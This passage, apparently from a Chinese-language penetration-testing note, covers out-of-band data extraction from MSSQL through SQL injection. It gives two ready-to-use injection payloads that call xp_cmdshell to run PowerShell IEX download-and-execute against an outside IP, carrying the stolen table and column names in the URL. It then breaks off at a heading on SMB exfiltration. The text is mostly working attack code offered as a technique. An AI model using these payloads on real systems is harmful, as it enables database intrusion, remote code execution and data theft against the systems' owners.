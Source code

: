 #### 获取表名

```sql
id=1';declare @a varchar(8000);set @a=(select top 1 table_name from information_schema.tables);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```

![image-20240906092208841](assets/image-20240906092208841-1725772729965-23.png)

#### 获取字段名

```sql
id=1';declare @a varchar(8000);set @a=(select top 1 column_name from information_schema.columns);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```

![image-20240906092245173](assets/image-20240906092245173-1725772734023-25.png)

------



# smb数据外带
